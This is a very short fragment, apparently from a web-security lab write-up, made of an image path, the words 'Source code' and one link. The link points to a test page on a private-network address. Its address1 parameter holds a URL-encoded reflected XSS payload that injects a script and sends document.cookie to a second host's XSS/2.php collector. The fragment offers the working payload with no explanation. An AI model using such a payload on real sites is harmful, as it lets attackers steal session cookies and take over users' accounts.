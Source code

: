 [http://192.168.28.49/test/1.php?address1=%22%2F%3E%3Cscript%3Ewindow.open%28%22http%3A%2F%2F192.168.28.13%2FXSS%2F2.php%3Fcookie%3D%22%2Bdocument.cookie%29%3C%2Fscript%3E%3C%21--](http://192.168.28.49/test/1.php?address1="%2F>window.open("http%3A%2F%2F192.168.28.13%2FXSS%2F2.php%3Fcookie%3D"%2Bdocument.cookie)<%2Fscript><!--)

